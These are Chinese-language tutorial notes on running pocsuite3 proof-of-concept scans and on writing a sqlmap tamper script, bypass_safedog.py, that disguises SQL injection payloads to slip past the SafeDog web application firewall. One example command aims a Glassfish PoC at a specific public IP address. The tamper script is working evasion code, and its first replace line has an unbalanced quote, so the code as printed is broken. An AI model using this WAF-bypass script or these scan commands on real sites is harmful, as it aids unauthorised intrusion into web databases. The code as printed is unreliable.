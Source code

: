 1. verity：验证目标是否存在漏洞：`pocsuite -r tests/poc_example.py -u http://www.example.com/ --verify`

2. attack：向目标发起有效的攻击。

![pocsuite3运行的参数](./pocsuite3运行的参数.png)

漏洞验证的相关命令：

1. `-r`为指定目录，`-r test/poc_example.py`为指定`test`目录下的`poc_example.py`为`poc`代码。 
2. `-u http://www.example.com/`为指定扫描的url。
3. `--verify`为漏洞验证模式。
4. `-f url.txt`为要批量验证靶机的url文本。
5. `--threads`为线程数量

如何根据这个在此框架的基础上编写属于自己的POC呢？参考自带漏洞模版代码模仿写法测试

这里查看poc目录下的thinkphp_rce.py文件的写法

1. 基于POCBase类，属性为漏洞的简介，方法为要进行的漏洞验证/攻击/shell。
2. 在verify函数中,通过调用check函数遍历poc来验证漏洞。
3. 只需要修改`check`函数中的`payload`即可。

使用poc：

```python
python.exe ./cli.py -r ./pocs/Glassfish.py -u https://8.130.73.157:4848 --verify
```

## Sqlmap_Tamper 模块脚本编写绕过滤

sqlmap的tamper目录：如果注入的时候遇见WAF，就利用该目录下的文件进行绕过。

在该目录新建一个：`bypass_safedog.py`文件。

利用replace对注入payload 的关键字进行替代。

```python
from lib.core.enums import PRIORITY
from lib.core.compat import xrange

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    if payload:
        payload = payload.replace('/'', "%00%27")
        payload = payload.replace('select','/*!44575select*/')
        payload = payload.replace('%20','%23a%0a')
        payload = payload.replace('union','%23x%0aunion')
        payload = payload.replace(' ','%23a%0a')
        payload = payload.replace('database()','database%23a%0a()')
    return payload
```

使用sqlmap跑的时候加上参数: `–tamper=bypass_safedog.py`，变化浏览器信息：`--random-agent`，延迟：`–delay=1`
